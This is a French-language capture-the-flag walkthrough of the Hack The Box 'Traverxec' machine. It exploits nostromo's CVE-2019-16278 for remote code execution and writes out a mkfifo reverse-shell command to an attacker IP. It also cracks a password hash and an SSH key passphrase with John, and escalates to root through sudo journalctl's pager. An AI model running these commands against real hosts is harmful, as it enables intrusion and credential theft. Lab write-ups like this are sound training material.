 # Infos

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/htb-card.png)

# Reconnaissance

## Nmap TCP base

```
nmap -T4 --min-rate 10000 -sV -oN nmap_base 10.129.24.71 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est sur l'OS Linux, sur le port 80, on retrouve la version de nostromo 1.9.6 qui peut être intéressant pour la suite.

# Enumération

## Port 80/tcp - HTTP

Sur le site, on retrouve une page web statique. Si on se renseigne sur  [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), on peut voir qu'il s'agit d'un serveur web très minimaliste.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-site.png)

En bas de la page, on a un formulaire, mais il ne fonctionne pas

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-form-disabled.png)

## Foothold - www-data

Pas de robots.txt, on commence par fuzz les répertoires et fichiers, mais ça ne donne rien. Si on recherche des exploits en lien avec la version de nostromo, on retrouve un [exploit](https://www.exploit-db.com/exploits/47837) concernant la [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) permettrant un path traversal dans la fonction `http_verify`, cela mène à une RCE.

L'exploit semble un peu vieux, on va en chercher un autre. Rapidement, on trouve cet [exploit](https://raw.githubusercontent.com/jas502n/CVE-2019-16278/master/CVE-2019-16278.sh) en bash sur Github. Cela nous demande l'hôte comme premier argument, puis le port en second argument et enfin la commande que l'on souhaite.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-rce.png)

Ca fonctionne et on obtient bien une RCE. Essayons maintenant d'obtenir un reverse shell Bash TCP, ça ne fonctionne pas, mais si on essaye avec le reverse shell mkfifo ça passe et on récupère un shell en tant que www-data

`bash CVE-2019-16278.sh 10.129.24.71 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.33 9001 >/tmp/f"`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/shell-www-data.png)

## Mouvement latéral - david

Sur la machine, on retrouve deux utilisateurs, david qui pourrait être notre pivot et le compte root.

Lancement de linpeas, variables d'env

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/www-data-peas-env.png)

Fichier .htpasswd

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/www-data-peas-htpasswd.png)

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

On peut tenter de cracker ce hash et ça fonctionne `Nowonly4me`, mais impossible d'utiliser ce mot de passe via su ou SSH

`john --format=md5crypt hash-md5-david.txt --wordlist=/opt/rockyou.txt`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-crack-hash.png)

Dans le répertoire contenant le server web nostromo, on retrouve un fichier de conf `nhttpd.conf` qui nous permet de voir qu'il y a un dossier accessible `public_www` sous `/home/david/public_www`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-conf-nostromo.png)

Quand on y accède on retrouve un fichier et un dossier :
- index.html
- protected-file-area -> folder

Dans ce dossier on retrouve également deux fichiers :
- .htaccess -> ne donne rien
- backup-ssh-identity-files.tgz -> archive d'un backup SSH -> juicy :p

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-conf-nostromo.png)

On ne peut pas décompresser l'archive sur la target, mais on peut essayer de le transférer sur la machine d'attaque. Ca ne fonctionne pas, on peut tenter de copier le fichier dans /tmp, lui assigner les droits et le décompresser

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-ssh.png)

Ca fonctionne et on retrouve sa clé privée RSA chiffrée sous `/tmp/home/david/.ssh/id_rsa`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david_idrsa_crypt.png)

Utilisation de ssh2john pour générer un hash

`/opt/tools/john/run/ssh2john.py id_rsa_david > id_rsa_david_hash`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-idrsa_hash.png)

Crack avec JtR, on retrouve le mdp `hunter`

`john id_rsa_david_hash --wordlist=/opt/rockyou.txt`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-idrsa_crack.png)

Tentative de connexion en SSH et récupération du flag user.txt

`ssh -i id_rsa_david david@10.129.24.71`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/userflag.png)

## Elévation de privilèges - root

Lancement de linpeas pour trouver un path pour le root, sous `/home/david/bin/` on retrouve le fichier `server-stats.sh` qui fait appel à la commande sudo, ce qui pourrait être intéressant pour obtenir le compte root.

Si on l'exécute, on obtient ceci

`./server-stats.sh`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/pe-server-stats.png)

La dernière ligne fait appel à sudo sur journalctl, cela va ouvrir un less, on peut privesc de cette manière `!/bin/bash`

`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

Après plusieurs tentatives, il faut deux terminaux pour que ça fonctionne, en effet si on tente avec un seul, le pager less ne se lance pas.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/pe-suid-error.png)

Alors qu'avec deux terminaux, ça fonctionne. On peut récupérer le dernier flag

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/rootflag.png)
